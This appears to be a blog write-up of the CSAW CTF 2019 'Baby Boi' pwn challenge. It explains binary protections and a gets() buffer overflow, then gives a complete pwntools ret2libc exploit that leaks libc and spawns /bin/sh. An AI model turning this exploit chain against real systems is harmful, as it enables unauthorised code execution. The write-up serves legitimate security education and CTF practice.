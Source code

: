 ```yaml
---
layout: default
title: CSAW CTF Qualification 2019 - Baby Boi
---
```


<h1 align="center">[CSAW CTF Qualification 2019 - Baby Boi]</h1>
## Challenge Description
<p align="center"><img src="https://arkangels.github.io/ctf/assets/csaw2019_baby_boi/challdesc.png"></p><br>
We are given 3 files which can be found <a href="https://github.com/ArkAngels/CTF-Source-Codes/tree/master/CSAW%20Qual%202019/pwn/CSAW%20Qual%202019%20-%20baby%20boi">here</a><br>
For some reason there is a challenge that gives us the C source code in international CTF. But that's okay and that helps the writer a lot since the writer just started to learn Binary Exploitation recently.<br>
But for now, let's try to check the file.<br>
<p align="center"><img src="https://arkangels.github.io/ctf/assets/csaw2019_baby_boi/checksec.png"></p><br>
It looks that the binary's configurations are as the following:<br>
* The binary is 64-bit and not stripped.
* Partial RELRO: RELRO is Relocation Read-Only. This configuration means that the *Global Offset Table* (GOT) and *Procedure Linkage Table* (PLT) is not in *read-only* mode.
* No Canary found: Canary in stack is used to detect stack smashing. When you do a stack smashing, the canary address will change because of that, and if the program detects a difference in the canary, the program will be terminated. In this case because there is no canary means we don't have to leak the canary address in order to do stack smashing.
* NX Enabled: NX itself stands for *Non-Executable*. This configuration means that every segment in the memory is not writable **AND** executable. If this configuration is enabled, we can't execute a code that comes from outsite (like if we write a shellcode).
* No PIE: PIE stands for Position Independent Executable. This configuration tells us that those addresses will change everytime we execute the ELF. But since the PIE is disabled, almost all addresses are static.

Let's try to run the program first.<br>
<p align="center"><img src="https://arkangels.github.io/ctf/assets/csaw2019_baby_boi/test_run.png"></p><br>
It seems the program prints an address before we input something, but what address is it?<br>
The disassembler gives us the main function like this:<br>
```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [sp+10h] [bp-20h]@1 // Array size -> 32 (0x20)

  setvbuf(_bss_start, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  puts("Hello!");
  printf("Here I am: %p\n", &printf, argv);
  gets(&v4);
  return 0;
}
```
The program is quite straightforward actually. It will print the address of **printf** and it will ask us for input and then the program exits. And there is one thing that we need to highlight, the use of **gets** here is dangerous because the syntax has a vulnerability which is *buffer overflow*.<br>
So, if the program only does that, how are we gonna get the flag? Remember, we are given 3 files:<br>
* Binary
* C Source code
* Libc library

Using this libc library, we can spawn shell (/bin/sh) using the method *ret2libc*. Because this is 64-bit, there are few things we need to do this method:
* libc base address
* system offset in libc
* /bin/sh offset in libc
* pop rdi gadget
* ret gadget

Now I will explain why we need these:
* libc base address: Libc base address is needed so we can calculate the offset of system function and also /bin/sh string in the libc.
* system offset in libc: So we can call **system** function from libc
* /bin/sh offset in libc: So we can give the **system** function an argument
* pop rdi gadget: To point the argument of **system** function to /bin/sh
* ret gadget: Exit gadget

Now, how to find all of these? Here's what you can do:
* libc base address: Remember that we have a free address from the program which is *printf*, this address belongs to the binary. So in order to calculate the base address, we need the offset of *printf* in the libc and substract the binary's *printf* address with the offset from libc.
* system offset: After we get the libc base, we can calculate the system offset by adding the offset with the libc base.
* /bin/sh offset: Calculate the /bin/sh string offset by adding the libc base with the offset.
* pop rdi gadget and ret gadget: Use ROPgadget

After we get all the requirements, now we can develop our exploit code.

```python
from pwn import *

# Get the gadget addresses from ROPgadget
pop_rdi = 0x400793
ret = 0x40054e

'''ret2libc attack pattern:
- buffer
- overwrite rbp
- pop rdi; ret
- address of /bin/sh
- ret gadget
- address of system
in 64-bit program, the call of a function is as following:
- a place for function's argument
- argument
- exit
- the function address
'''

def exploit():
	r.recvline()
	# Get printf address in binary
	printf_memory_addr = int(r.recvuntil("\n").split(' ')[3], 16)
	log.info('printf addr in memory: {}'.format(hex(printf_memory_addr)))
	log.info('printf addr in libc: {}'.format(hex(libc.symbols['printf'])))
	# Calculate libc base address
	libc_base = printf_memory_addr - libc.symbols['printf']
	log.info('libc base: {}'.format(hex(libc_base)))
	# Calculate system offset
	system_addr = libc_base + libc.symbols['system']
	log.info('system addr: {}'.format(hex(system_addr)))
	log.info('pop rdi; ret; addr: {}'.format(hex(pop_rdi)))
	# Calculate /bin/sh offset
	bin_sh = libc_base + libc.search('/bin/sh').next()
	log.info('/bin/sh addr: {}'.format(hex(bin_sh)))
	# Fill the buffer
	payload = "a" * 32
	# More padding
	payload += "b" * 8
	# Prepare the place for system's argument
	payload += p64(pop_rdi)
	# System's argument
	payload += p64(bin_sh)
	# Return gadget
	payload += p64(ret)
	# Call the system
	payload += p64(system_addr)
	# Send the payload
	r.sendline(payload)
	# Prompt interactive mode since we have the shell now
	r.interactive()

elf = ELF("./baby_boi", checksec = False)
libc = ELF('./libc-2.27.so', checksec = False)
r = process(elf.path)
#r = remote("pwn.chal.csaw.io", 1005)

exploit()
```
<p align="center"><img src="https://arkangels.github.io/ctf/assets/csaw2019_baby_boi/flag.png"></p>